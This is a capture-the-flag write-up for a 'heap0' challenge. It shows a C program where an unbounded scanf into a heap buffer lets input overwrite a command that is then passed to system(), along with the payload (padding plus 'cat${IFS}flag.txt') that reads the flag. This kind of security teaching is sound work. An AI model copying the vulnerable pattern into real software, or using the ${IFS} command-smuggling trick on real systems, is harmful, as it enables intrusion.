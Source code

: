 # heap0

Both a binary and a C source file were given.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


int main(void) {
	char* username = malloc(50);
	char* shell = malloc(50);
	
	printf("username at %p\n", username);
	printf("shell at %p\n", shell);
	
	strcpy(shell, "/bin/ls");
	
	printf("Enter username: ");
	scanf("%s", username);
	
	printf("Hello, %s. Your shell is %s.\n", username, shell);
	system(shell);
	
	return 0;
}
```
We run the program first.

```
username at 0x57606008
shell at 0x57606040
Enter username: i_like_cookies
Hello, i_like_cookies. Your shell is /bin/ls.
flag.txt
heap0
^C
```
It can be seen that two strings, username and shell, have been dynamically allocated on the heap. Their memory addresses were printed out, showing that their locations in memory are adjacent to each other.

The program also calls ```system``` to execute a command, which is to be changed in order to read the contents of the ```flag.txt``` file.


### The exploit 
```scanf()``` here does not check for an input size. To overwrite the contents of the ```shell```, we first fill up the username with 50 of any character, and any subsequent input will overwrite the shell command.

Reading the file is done with ```cat flag.txt``` - let us try this now.

```
username at 0x579dd008
shell at 0x579dd040
Enter username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat flag.txt
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat. Your shell is cat.
```
My shell should have been ```cat flag.txt```, but ```flag.txt``` did not show up. After some Googling, it turns out that [scanf does not read any characters after a white space character](https://stackoverflow.com/questions/1247989/how-do-you-allow-spaces-to-be-entered-using-scanf).

This can be circumvented using [a special sequence which is equivalent to a space character](https://medium.com/csg-govtech/a-simple-os-command-injection-challenge-5acf92799f74), ```${IFS}```.

**Solution**
```
username at 0x57fde008
shell at 0x57fde040
Enter username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat${IFS}flag.txt
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat${IFS}flag.txt. Your shell is cat${IFS}flag.txt.
```

**Flag**
```
flag{heap_challenges_are_not_as_scary_as_most_people_think}
```
